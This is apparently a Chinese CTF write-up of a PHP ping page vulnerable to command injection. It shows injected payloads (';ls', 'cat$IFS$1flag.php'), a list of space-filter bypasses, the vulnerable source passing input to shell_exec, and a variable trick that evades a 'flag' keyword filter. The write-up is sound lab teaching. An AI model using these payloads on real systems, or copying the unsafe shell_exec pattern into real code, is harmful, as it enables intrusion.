 依旧是随便点开的一个题目，但很有趣。
主要是想用用firefox渗透版，不太想每次打开burp suite。

## 1

### （1）
打开靶场，扑面而来一个
`/?ip=`
（如果有点觉悟就会想起来之前做的文件上传从而意识到这是个URL地址符提示。不过当时没有，甚至在想这是什么代码……php？html？）
于是熟练的打开edge查询wp。
于是
```URL
http://2993ad62-21c8-4f1d-b4d6-05bdd7130b70.node4.buuoj.cn:81/?ip=127.0.0.1;ls
```
喜提
(补充：尝试了一下`&& ls`，什么有用的也没有得到)
```txt
PING 127.0.0.1 (127.0.0.1): 56 data bytes
flag.php
index.php
```
这告诉我们有两个php文件，名字如上。

### （2）

再用`cat`命令

```url
/?ip=xxx;cat flag.php
```

喜提`fuck your space`。
好嘛，用能想到的space替换符，%20之类的，毫不意外不行。
wp提供了更多的绕过space：
```txt
${IFS}
$IFS$1
${IFS
<> or < 重定向符替换
%09
```
原博一个个试后告诉大家，`$IFS$1`行得通。

```URL
https://xxx/?ip=127.0.0.1;cat$IFS$1flag.php
```

又告诉你不行——因为flag被过滤了。

### （3）
试一下index.php，
```php
PING 127.0.0.1 (127.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
?>
```

解释一下就是：

- 1. `PING 127.0.0.1 (127.0.0.1): 56 data bytes`：这是一个命令行输出，表示将对IP地址 127.0.0.1 进行Ping测试。`/?ip=`：这是一个URL参数，用于接收要测试的目标IP地址。

- 2. `|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match))`：这是一个正则表达式，用于检查输入的IP地址是否包含特定的符号（ `'`, `"`, `\`, `(`, `)`, `[`, `]`, `{`, `}`）。然后 `echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);`：这一行判断输入的IP地址是否包含特殊字符，并输出匹配结果。最后`die("fxck your symbol!");`：如果前面的正则表达式匹配到特殊字符，将输出错误信息并终止程序运行。

- 3. `preg_match("/ /", $ip)`：这是一个正则表达式，用于检查输入的IP地址是否包含空格。然后`die("fxck your space!");`：如果输入的IP地址包含空格，将输出错误信息并终止程序运行。后面都一样就不重复了。

- 4.  `$a = shell_exec("ping -c 4 ".$ip);`：执行Ping命令，通过shell_exec函数在操作系统中运行命令，并将结果存储在变量$a中。

- 5.`print_r($a);`：打印Ping命令的结果，显示Ping测试的输出信息。

### （4）

看完这么多过滤，基本可以确定没什么常规的可以写了。
于是一个有趣的就来了：
**改变变量值**

有一个变量`$a`，原本的值是第4条说的，我们进行人为修改（它也没禁止）：
```url
https://xxx/?ip=xxxx;a=g;cat$IFS$1fla$a.php
```
解释一下就是：
```python
a=g
flag=fla$a
```
不懂的永别了.jpg
然后就变成了初始界面。很懵逼是吧。
查看页面源代码获得惊喜。至于为什么会这样待我研究一下再来写。
